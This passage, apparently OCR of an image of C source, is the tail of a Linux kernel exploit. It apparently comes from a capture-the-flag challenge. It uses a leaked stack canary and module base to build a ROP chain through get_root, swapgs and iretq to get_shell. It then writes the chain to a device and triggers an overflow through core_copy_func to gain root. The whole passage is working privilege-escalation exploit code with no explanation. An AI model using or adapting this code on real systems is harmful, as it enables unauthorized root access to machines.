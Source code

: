 ```c
	canary = tmps[0];
	module_base = tmps[2]-0x19b;
	printf("[*] canary===>%p\n",canary);
	printf("[*] module_base===>%p\n",module_base);
	int i = 8;
	size_t rop[0x20];
	rop[i++] = canary;
	rop[i++] = 0;
	rop[i++] = (size_t)get_root;
	rop[i++] = swapgs;//swapgs; popfq; ret;
	rop[i++] = 0;
	rop[i++] = iret;// iretq; ret;
	rop[i++] = (size_t)get_shell;
	rop[i++] = user_cs;
	rop[i++] = user_eflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;
	write(fd,rop,0x100);
	core_copy_func(fd,0xf000000000000000+0x100);
	return 0;
}
```

